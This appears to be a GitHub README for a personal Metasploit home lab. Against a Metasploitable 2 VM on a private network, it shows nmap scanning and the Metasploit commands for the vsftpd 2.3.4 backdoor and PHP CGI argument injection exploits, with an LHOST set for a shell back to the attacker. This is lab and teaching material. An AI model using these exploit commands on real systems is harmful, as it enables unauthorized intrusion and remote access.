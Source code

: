 <h1>Metasploit Cybersecurity Home Lab</h1>

<h2>Description</h2>
<p>In this lab, I set up and configured Metasploit to exploit vulnerabilities in a virtual environment using VirtualBox and Kali Linux. This setup simulates various attack vectors</p>

<h2>Environments Used</h2>
<ul>
    <li><b>Host Operating System</b>: Windows 11</li>
    <li><b>Virtual Machines</b>:
        <ul>
            <li>Metasploitable 2</li>
            <li>Kali Linux</li>
        </ul>
    </li>
</ul>

<h2>Lab Walk-through</h2>

<h3>Setting Up the Environment</h3>
<ol>
    <li><b>Downloading Metasploitable 2</b>: Obtain the Metasploitable 2 virtual machine.</li>
    <li><b>Setting Up Virtual Machines</b>: Import the Metasploitable 2 virtual machine into VirtualBox.</li>
</ol>

<h3>Configuring VirtualBox VM</h3>
<p>Once imported, configure the network settings of both Kali Linux and Metasploitable 2 to be on the same internal network, ensuring they can communicate with each other.</p>

<h3>Nmap Scanning</h3>
<p>I used Nmap to scan the target machine (Metasploitable 2) for open ports and services. This helps in identifying potential vulnerabilities that can be exploited.</p>

<pre><code>sudo nmap -sV -O 10.0.2.4</code></pre>

<p align="center">
    <img src="img/Screenshot 2024-06-24 184306.png">


<h3>Launching Metasploit on Kali Linux</h3>
<ol>
    <li><b>Starting Metasploit Console</b>:</li>
</ol>

<pre><code>msfconsole</code></pre>

<p align="center">
    <img src="img/Screenshot 2024-06-24 185156.png"/>
</p>

<h3>Exploiting Vulnerabilities</h3>

<ol>
    <li><b>Using vsftpd 2.3.4 Backdoor</b>:</li>
</ol>

<pre><code>
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.0.2.4
exploit
</code></pre>

<p align="center">
    <img src="img/Screenshot 2024-06-24 185515.png"/>
<p align="center">
    <img src="img/Screenshot 2024-06-24 185530.png"/>
</p>

<ol start="2">
    <li><b>Directory Scanning and PHP CGI Argument Injection</b>:</li>
</ol>

<pre><code>
use auxiliary/scanner/http/dir_scanner
set RHOSTS 10.0.2.4
exploit

use exploit/multi/http/php_cgi_arg_injection
set RHOSTS 10.0.2.4
set LHOST 10.0.2.5
exploit
</code></pre>

<p align="center">
    <img src="img/Screenshot 2024-06-24 190945.png"/>
</p>



</body>
</html>
<!--
 ```diff
- text in red
+ text in green
! text in orange
# text in gray
@@ text in purple (and bold)@@
```
-->
